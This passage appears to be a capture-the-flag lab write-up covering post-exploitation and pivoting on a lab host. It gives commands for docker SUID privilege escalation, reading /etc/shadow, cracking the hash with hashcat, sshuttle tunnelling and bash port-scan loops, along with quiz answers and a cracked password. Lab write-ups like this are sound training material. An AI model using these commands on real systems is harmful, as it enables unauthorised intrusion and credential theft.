 ```markdown
1. What is the full path of the binary with an SUID bit set on L-SRV01? - /usr/bin/docker

2. What is the full first line of the exploit for the SUID bit? - sudo install -m =xs $(which docker) .
```

## Post Exploitation - 2

```shell
#in root shell on L-SRV01
cat /etc/shadow

#get hash for linux-admin user

#in attacker machine
vim hash.txt
#sha512crypt hash

hashcat -a 0 -m 1800 hash.txt /usr/share/wordlists/rockyou.txt
```

* We can now attempt to extract hashes from the shadow file.

* Using ```hashcat```, we can crack the password for the user 'linux-admin'.

```markdown
1. What non-default user can we find in the shadow file on L-SRV01? - linux-admin

2. What is the plaintext cracked password from the shadow hash? - linuxrulez
```

## Pivoting

```shell
ssh linux-admin@10.200.112.33
#ssh into L-SRV01

ls -la /usr/bin/docker
#SUID bit set

/usr/bin/docker run -v /:/mnt --rm -it ubuntu:18.04 chroot /mnt sh
#we get root on L-SRV01

#for pivoting, we can use sshuttle
#on attacker machine
sshuttle -r linux-admin@10.200.112.33 10.200.112.0/24 -x 10.200.112.33
#proxy in 10.200.112.0/24 network with L-SRV01 10.200.112.33 excluded from subnet

#to scan internal hosts
#ping sweep from L-SRV01
for i in {1..254} ;do (ping -c 1 10.200.112.$i | grep "bytes from" | cut -d " " -f 4 | cut -d ":" -f 1 &) ;done
#this gives us alive hosts

#check for open ports on alive hosts
for ip in 30 31 35; do echo "10.200.112.$ip:"; for i in {1..15000}; do echo 2>/dev/null > /dev/tcp/10.200.112.$ip/$i && echo "$i open"; done; echo " ";done;
#this gives us a list of open ports
```
